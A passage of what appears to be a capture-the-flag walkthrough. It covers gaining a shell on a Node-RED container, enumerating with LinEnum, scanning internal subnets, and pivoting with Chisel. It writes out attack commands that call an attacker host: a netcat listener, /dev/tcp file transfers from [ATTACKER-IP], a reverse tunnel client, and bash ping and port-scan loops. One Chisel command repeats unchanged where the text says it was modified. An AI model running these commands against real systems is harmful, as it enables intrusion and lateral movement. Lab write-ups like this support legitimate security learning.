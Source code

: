 3. **Exploiting Node-RED for Initial Shell**
   - **Technique**: Use Burp Suite to manipulate HTTP requests and Node-RED's functionality to achieve command execution.
   - **Steps**:
     - Send a POST request to `/red/<ID>` (ID obtained from Burp Suite response) to access the Node-RED interface.
     - Create a flow in Node-RED with an `exec` node to run commands (e.g., `whoami`), but no output received.
     - Configure a TCP output node to connect to attacker's machine ([ATTACKER-IP]:4444) and send command output.
     - Use `netcat` to receive output, achieving a pseudo-shell: `nc -lvnp 4444`. Commands like `ls` and `cd` executed successfully.
   - **Purpose**: Gain initial command execution on the Node-RED container.

4. **Privilege Escalation Attempt via LinEnum Script**
   - **Technique**: Transfer and execute a LinEnum script to enumerate the system for privilege escalation opportunities.
   - **Steps**:
     - Attempt to transfer LinEnum via `wget` or `curl` to `[ATTACKER-IP]:8000`, but tools were unavailable.
     - Use `bash -c "cat </dev/tcp/[ATTACKER-IP]/8000" > lin.sh` to transfer the script via `/dev/tcp`.
     - Execute `bash lin.sh` to enumerate the system, revealing it's a Docker container (confirmed by `/dockerenv` file) and identifying readable `/etc/shadow` with no passwords.
   - **Purpose**: Gather system information to identify potential privilege escalation vectors.

5. **Network Enumeration and Pivoting Preparation**
   - **Technique**: Enumerate internal network IPs and scan for other containers.
   - **Steps**:
     - Run `ip addr` to identify local IP (172.18.0.2) and assume other IPs in the 172.18.0.0/16 and 172.19.0.0/16 subnets.
     - Create a bash script (`ip_scan.sh`) to ping IPs in 172.18.0.0/16: `for ip in $(seq 1 255); do ping -c 1 172.18.0.$ip >/dev/null && echo "online 172.18.0.$ip"; done`. Identified 172.18.0.1 (gateway) and 172.18.0.2 (current container).
     - Scan 172.19.0.0/16 subnet, identifying 172.19.0.2, 172.19.0.3, and 172.19.0.4 as active.
     - Perform a port scan on 172.19.0.3 using a bash script: `for port in {20,21,22,80,443,8080,8443}; do echo "test" > /dev/tcp/172.19.0.3/$port 2>/dev/null && echo "open port $port"; done`. Found port 80 open.
   - **Purpose**: Discover additional containers for pivoting.

6. **Pivoting with Chisel (Reverse Tunnel to Web Server)**
   - **Technique**: Use Chisel to create a reverse tunnel to access the web server on 172.19.0.3:80.
   - **Steps**:
     - Build and optimize Chisel binary on the attacker's machine: `go build -ldflags "-s -w"` and `upx --brute chisel` to reduce size.
     - Transfer Chisel to the Node-RED container via `nc -lvnp 80` and `cat </dev/tcp/[ATTACKER-IP]/80 > chisel`.
     - Set up Chisel server on attacker's machine: `./chisel server -p 8000 --reverse`.
     - On Node-RED container, run Chisel client: `./chisel client [ATTACKER-IP]:8000 R:127.0.0.1:8001:172.19.0.3:80`.
     - Access `http://localhost:8001` on attacker's machine to reach the web server on 172.19.0.3.
     - Modify to bind to localhost for security: `./chisel client [ATTACKER-IP]:8000 R:127.0.0.1:8001:172.19.0.3:80`.
   - **Purpose**: Establish a tunnel to access the web server on the second container.
